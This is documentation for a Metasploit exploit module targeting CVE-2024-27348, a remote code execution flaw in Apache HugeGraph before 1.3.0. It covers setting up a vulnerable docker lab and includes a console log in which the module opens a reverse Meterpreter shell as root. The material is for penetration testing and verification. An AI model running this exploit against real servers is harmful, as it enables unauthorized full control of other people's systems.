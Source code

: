 ## Vulnerable Application
This module exploits CVE-2024-27348 which is a Remote Code Execution (RCE) vulnerability that exists in
Apache HugeGraph Server in versions before 1.3.0. An attacker can bypass the sandbox restrictions and achieve
RCE through Gremlin, resulting in complete control over the server

### Setup
To install a vulnerable instance via docker run the following command:
```
docker run -itd --name=graph -p 8080:8080 hugegraph/hugegraph:1.0.0
```

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/apache_hugegraph_gremlin_rce`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Apache HugeGraph 1.0.0 docker instance
```

msf exploit(linux/http/apache_hugegraph_gremlin_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(linux/http/apache_hugegraph_gremlin_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/apache_hugegraph_gremlin_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache HugeGraph version detected: 1.0.0
[*] 127.0.0.1:9191 - Executing Automatic Target for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.1:53803) at 2024-07-29 13:59:20 -0700

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
